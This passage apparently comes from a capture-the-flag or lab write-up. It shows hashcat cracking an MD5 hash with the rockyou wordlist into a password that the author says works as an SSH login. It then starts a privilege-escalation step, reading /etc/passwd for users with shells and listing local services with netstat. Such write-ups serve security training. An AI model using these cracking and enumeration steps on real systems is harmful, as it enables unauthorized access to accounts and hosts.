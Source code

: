 ```bash
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

fc895d4eddc2fc12f995e18c865cf273:Soleil101

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: fc895d4eddc2fc12f995e18c865cf273
Time.Started.....: Mon Oct 17 00:17:27 2022 (1 sec)
Time.Estimated...: Mon Oct 17 00:17:28 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  6404.7 kH/s (0.10ms) @ Accel:512 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2091008/14344385 (14.58%)
Rejected.........: 0/2091008 (0.00%)
Restore.Point....: 2088960/14344385 (14.56%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: TEAMODARIO -> Smudge77

Started: Mon Oct 17 00:17:26 2022
Stopped: Mon Oct 17 00:17:29 2022
```
And this is a valid username:password for ssh


## Privesc from james to dan

Probing around to see what we can find, users with a shell are james root and dan, and the user flag is in dan
```bash
grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
james_mason:x:1000:1000:james_mason,,,:/home/james_mason:/bin/bash
dan_smith:x:1001:1002::/home/dan_smith:/bin/bash
```

There's the mysql we already looted and something on port 6379
```bash
netstat -tulpen
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      106        13494      -
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN      0          284021     -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      0          13447      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          12591      -
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      0          13448      -
tcp6       0      0 :::22                   :::*                    LISTEN      0          12593      -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          12476      -
```
